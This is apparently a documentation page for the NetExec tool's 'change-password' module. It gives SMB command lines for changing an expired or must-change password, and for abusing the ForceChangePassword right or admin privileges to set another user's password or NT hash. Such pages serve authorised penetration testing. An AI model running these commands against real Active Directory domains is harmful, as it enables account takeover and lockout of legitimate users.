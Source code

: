 # 🆕 Change User Password

If you encounter an account with a correct password but either `STATUS_PASSWORD_MUST_CHANGE` or `STATUS_PASSWORD_EXPIRED`, you usually won't be able to use it.\
However, with the `change-password` module, you can change the password of a target user.\

You can also abuse `ForceChangePassword` to change the password of a user with this module.\

### Change Password of the Current User
Change the password of the current user to NewPassword or a new NT hash:

```bash
nxc smb <ip> -u user -p pass -M change-password -o NEWPASS=NewPassword
nxc smb <ip> -u user -p pass -M change-password -o NEWNTHASH=31d6cfe0d16ae931b73c59d7e0c089c0
```

### Change Password of a different User
Change the password of different user with `ForceChangePassword` or admin privileges to NewPassword or a new NT hash:

```bash
nxc smb <ip> -u user -p pass -M change-password -o USER=TargetUser NEWPASS=NewPassword
```
![Change Password](../.gitbook/assets/changepasswd.png)


Change the NT hash of TargetUser to 10C035D527CA60BE3ADF51996E7CD7E1

```bash
nxc smb <ip> -u user -p pass -M change-password -o USER=TargetUser NEWHASH=10C035D527CA60BE3ADF51996E7CD7E1
```
![Change Hash](../.gitbook/assets/changehash.png)

Made by [@FaganAfandiyev](https://x.com/kriyosthearcane), [@termanix](https://github.com/termanix) and [@NeffIsBack](https://x.com/al3x\_n3ff).